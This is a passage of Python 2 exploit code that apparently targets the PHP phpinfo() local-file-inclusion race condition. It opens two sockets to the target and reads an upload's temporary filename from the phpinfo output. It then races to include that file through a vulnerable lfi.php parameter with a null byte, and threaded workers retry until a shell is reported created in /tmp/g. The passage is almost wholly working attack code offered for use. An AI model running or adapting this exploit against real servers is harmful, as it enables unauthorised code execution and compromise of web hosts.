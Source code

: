 ```py
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?load=%s%%00 HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =>")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
```